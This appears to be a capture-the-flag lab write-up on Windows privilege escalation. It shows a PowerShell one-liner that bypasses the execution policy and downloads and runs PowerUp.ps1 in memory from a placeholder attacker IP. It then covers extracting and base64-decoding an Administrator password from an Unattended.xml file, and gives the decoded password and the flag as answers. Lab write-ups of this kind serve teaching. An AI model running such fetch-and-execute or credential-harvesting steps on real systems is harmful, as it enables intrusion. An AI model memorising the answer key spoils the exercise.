

Wir nutzen Powershell Scripts um das System auszukundschaften. Dadruch können wir Angriffsvektoren finden und eventuell administrative Berechtigungen bekommen.

Answer the questions below
---

We will run [PowerUp1.ps1](https://raw.githubusercontent.com/PowerShellEmpire/PowerTools/master/PowerUp/PowerUp.ps1) into memory for enumerating any weakness to abuse for local privilege escalation.

powershell -ep bypass;
iex​(New-Object Net.WebClient).DownloadString('http://YOUR_IP/PowerUp.ps1') 

The script has identified several ways to get Administrator access. The first being to bypassUAC and the second is UnattendedPath. We will be exploiting the UnattendPath way.

"Unattended Setup is the method by which original equipment manufacturers (OEMs), corporations, and other users install Windows NT in unattended mode." Read more about it here.

It is also where users passwords are stored in base64 encoding. Navigate to C:\Windows\Panther\Unattend\Unattended.xml.

1. What is the decoded password?

    **tqjJpEX9Qv8ybKI3yHcc=L!5e(!wW;$T**

    `echo "dHFqSnBFWDlRdjh5YktJM3lIY2M9TCE1ZSghd1c7JFQ=" | base64 -d`

2. Now we have the Administrator's password, login as them and obtain the last flag.

    **THM{g00d_j0b_SYS4DM1n_M4s73R}**

